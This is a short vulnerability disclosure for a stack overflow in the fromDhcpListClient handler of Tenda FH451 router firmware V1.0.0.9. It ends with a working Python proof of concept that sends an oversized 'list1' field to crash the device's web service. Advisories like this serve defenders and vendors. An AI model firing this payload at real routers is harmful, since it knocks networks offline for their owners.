 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-1629.html
## Affected version

FH451  V1.0.0.9
## Vulnerability details

Tenda FH451 V1.0.0.9  has a stack overflow vulnerability in the `fromDhcpListClient` function. We can set `LISTEN=1` and the program will enter line 30 and 33, which leads to a stack overflow vulnerability. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.
![[2024-08-30 160030.png]]
## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*2000

data = {"LISTLEN":1,"page":1,"list1": payload}
response = requests.post(url, data=data)
print(response.text)
```

![[2024-08-30 155125.png]]